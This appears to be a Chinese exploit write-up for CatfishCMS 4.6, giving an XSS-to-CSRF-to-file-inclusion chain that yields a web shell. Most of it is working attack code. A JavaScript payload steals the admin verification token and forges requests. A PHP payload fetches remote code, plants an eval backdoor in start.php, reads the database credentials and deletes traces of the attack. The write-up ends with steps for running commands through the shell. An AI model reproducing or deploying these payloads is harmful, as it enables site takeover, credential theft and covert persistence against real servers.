






CatfishCMS 4.6.15 csrf getshell
===============================

一、漏洞简介
------------

在测试的过程中发现更新版本的时候作者添加一个参数 verification
可能是用来防治csrf。嗯，不得不说，作者安全意识提高了，用来防治csrf这的却是一个好思路，但是对于我们可以执行xss来说，verification
就显的苍白无力了，因为我们可以先获取verification 然后在执行csrf 从而来绕过。

二、漏洞影响
------------

CatfishCMS 4.6

三、复现过程
------------

### 漏洞分析

文件：CatfishCMS-4.6.12\\catfish\\library\\think\\Template.php

函数：fetch()

嗯，说完了。Fetch方法最后都会编译文件以后通过PHP输出，所以如果我们可以在他编译之前写入恶意代码 那么就可以为所欲为。

### 复现

前台注册一个账户-\>注册一个图片马到网站中-\>评论处插入xss代码-\>等待无辜管理员登录网站-\>获取
verification(绕过检测)-\>管理员入口-页面管理-新建页面-csrf插入一条非法语句引起包含漏洞(用来包含前面的图片马)-\>包含漏洞执行代码-\>包含漏洞添加getshell\_code.php文件写入恶意代码-\>包含漏洞-将框架文件start.php添加一句话木马-包含数据库配置文件-连接数据库-\>删除我们前面的评论-\>删除我们csrf创建的页面-\>邮件通知我们-\>getshell

CatfishCMS-4.6.12-xss.js

    /*  
        需要插入的xss代码
        <\/sc'+'ript>';$('body').append(xss_js);">
    */ 

    //不用动的
    var articles = 'index.php/admin/Index/articles.html';//用来获取 verification 绕过检测
    var newpage = 'index.php/admin/Index/newpage.html';//生成文章地址
    var allpage = 'index.php/admin/Index/allpage.html';//获取文章链接

    //需要改的
    var url = 'http://0-sec.org';//你要日的站的域名
    var directory = '/cms/CatfishCMS-4.6.12/'; //日的站的额外目录一般为空即可(站点设置二级目录时，此目录要填写)
    var img_trojan_url = '../../../'+'data/uploads/20171201/2c8b7c7f1d49faeb5321ce0c9b1962af.jpg';//图片马的地址 修改 + 号后面的即可
    var getshell_code = 'http://127.0.0.1/cms/CatfishCMS-4.6.12/xss-js/getshell_code.txt';//恶意代码远程包含的地址

    $('body').append('

');
    $('body').append('

');

    $.ajax({
        url: url+directory+articles,
        dataType: "json",
        success: function(verification_content){
            $('#csrf_verification').append(verification_content);
            var verification = $('#verification').html();//用来绕过验证的
            // alert(verification);

            //csrf生成文章,引起文件包含漏洞
            $.ajax({
                type: "POST",
                url: url+directory+newpage,
                data: {
                    'biaoti':'xss_csrf_getshll',
                    'template':img_trojan_url,
                    'verification':verification,
                    'fabushijian':'2017-12-05 11:56:48'
                },
                success: function(){
                    //csrf获取shell链接
                    $.ajax({
                        type: "POST",
                        url: url+directory+allpage,
                        success: function(allpage_content){
                            $('#csrf_allpage').append(allpage_content);
                            var shell_id = $('#csrf_allpage .table-responsive .table-bordered tbody tr td .gouxuan').eq(0).val();
                            var shell_url = $('#csrf_allpage .table-responsive .table-bordered tbody tr td a').eq(0).attr('href');

                            var shell_content = '';
                                shell_content+= "$myfile = fopen('getshell_code.php', 'w');";
                                shell_content+= '$txt = '+'file_get_contents("'+getshell_code+'");';
                                shell_content+= 'fwrite($myfile, $txt);';
                                console.log(shell_content);
                            
                            //执行shell 生成马子
                            $.ajax({
                                type: "POST",
                                url: url+shell_url,
                                dataType: "json",
                                data: {'ddd':shell_content},
                                success: function(data){
                                    $.ajax({
                                        type: "GET",
                                        url: url+directory+'getshell_code.php',
                                        dataType: "json", 
                                        // data: {'zzz':1}
                                    });
                                },
                                error: function(){
                                    $.ajax({
                                        type: "GET",
                                        url: url+directory+'getshell_code.php',
                                        dataType: "json", 
                                        // data: {'zzz':1}
                                    });
                                }   
                            });

                        } 
                    });

                } 
            });

        }
    });

写好以后模拟管理员，进入后台

getshell\_code

    <?php  
        $start_content = file_get_contents('catfish/start.php').'eval(@$_POST[ddd]);';
        $start = fopen('catfish/start.php', 'w');
        fwrite($start, $start_content);
        if( @$_GET[zzz]){
            $config = require_once("application/database.php");
            //分别对应的是 地址，端口号，连接的数据库，编码
            $dsn = "mysql:host={$config['hostname']}; port={$config['hostport']}; dbname={$config['database']}; charset={$config['charset']}";
            $user = $config['username'];
            $psw = $config['password'];
            $pdo = new PDO($dsn,$user,$psw);
            $sql = "DELETE from catfish_posts WHERE post_title LIKE '%xss_csrf_getshll%'";
            $sql_1 = "DELETE from catfish_comments WHERE content LIKE '%xss_csrf_getshll%'";
            $pdo->query($sql);
            $pdo->query($sql_1);
            unlink('getshell_code.php');
        }
    ?>

连接马子的操作，这个文件会在index.php中给引入所以直接

    http://0-sec.org/index.php

    POST

    ddd = 你要执行的命令

